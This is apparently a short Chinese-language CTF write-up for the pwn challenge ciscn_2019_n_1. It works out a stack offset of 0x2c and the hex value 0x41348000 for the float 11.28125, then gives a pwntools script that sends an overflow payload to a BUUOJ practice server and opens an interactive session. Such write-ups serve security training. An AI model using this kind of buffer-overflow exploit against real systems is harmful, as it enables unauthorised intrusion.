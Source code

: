 # pwn wp
### 1.ciscn_2019_n_1
v1地址为0x04。v2地址为0x30 计算偏移量为2c
而11.28125地址为0x41348000h
所以payload
```python
from pwn import *
p = remote('node3.buuoj.cn', 27751)
addr = 0x41348000
offset = 0x2c
payload = 'A'* offset + p64(addr)
p.sendline(payload)
p.interactive()
```